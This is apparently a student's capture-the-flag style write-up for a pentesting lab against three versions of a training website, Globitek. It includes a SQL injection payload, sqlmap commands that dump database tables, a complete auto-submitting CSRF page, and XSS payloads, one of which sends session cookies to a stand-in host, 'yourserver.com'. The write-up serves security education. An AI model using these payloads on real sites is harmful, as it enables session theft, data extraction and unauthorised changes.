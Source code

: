 # Project 8 - Pentesting Live Targets

Time spent: **8** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection (SQLi)
* Inject SQL code into the URL after "id=" with " 2' and SLEEP(5)=0--' ", which will cause the site to delay for 5 seconds before directing to the other page.

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/sqlinject.gif">

Vulnerability #2: Session Hijacking
* Log in to the page and find the Session ID using the premade script change_session_id.php, then on another browser using the same script, change the Session ID to the one from the previous browser.

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/session.gif">

## Green

Vulnerability #1: Username Enumeration
* When a NON-existing username is entered, the "Log in was unsuccessful." message is unbolded.

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/userenum.gif">

Vulnerability #2: Cross-Site Scripting (XSS)
* Inject a script through the feedback form and wait for a logged-in user to check it

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/xss.gif">


## Red

Vulnerability #1: Insecure Direct Object Reference (IDOR)
* By changing the value of "id" in the URL, a visitor is able to view pages/information that was meant to be private

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/idor.gif">

Vulnerability #2: Cross-Site Request Forgery (CSRF)
* Forged a form using the code below. Then allowed a logged-in user to visit the page, resulting in a CSRF POST request attack

```
<html>
  <head>
  </head>
  <body>
  	<h1><center>Totally Normal Site</center></h1>
    	<form name="csrfForm" action="https://35.184.21.59/red/public/staff/salespeople/edit.php?id=1" 
	method="post" target="hide">

		<input type="hidden" name="first_name" value="Site Hacked">
		<input type="hidden" name="last_name" value="By Brian">
	</form>
	<iframe name="hide" style="display: none;"></iframe>
	<script>
 		document.csrfForm.submit();
	</script>
  </body>
</html>
```

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/csrf.gif">

## Bonus Objectives

Bonus Objective 1: Build on Objective #3 (SQL Injection). Experiment to see what other kinds of information you can get the database to reveal.
* Using the tool sqlmap, additional information is extracted using the following prompts: 
* ```sqlmap -u https://35.184.21.59/blue/public/salesperson.php?id=1 --no-cast --dbs```
* ```sqlmap -u https://35.184.21.59/blue/public/salesperson.php?id=1 --no-cast --tables -D globitek_blue```
* ```sqlmap -u https://35.184.21.59/blue/public/salesperson.php?id=1 --no-cast --dump -T salespeople,users -D globitek_blue```

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/bonus1.gif">

Bonus Objective 2: Build on Objective #4 (Cross-Site Scripting). Experiment to see if you can use XSS to: a) direct the user to a new URL, b) read cookie data, c) set cookie data.
* Inject the script ```<script>document.location = "https://google.com";</script>``` into feedback form. When a logged in user checks the feedback, the script will redirect them to https://google.com

<img src="https://raw.githubusercontent.com/cheezm91/CodePathWeek8/master/bonus2a.gif">

* We can also steal cookie data using ```<script>document.write('<img src="https://yourserver.com/collect.gif?cookie=' + document.cookie + '" />')</script>``` which will cause the logged in user to send their cookie to your target website
* It is also possible to set up a CSRF page to set someone's cookie data and using XSS redirect that user to the page

## Notes
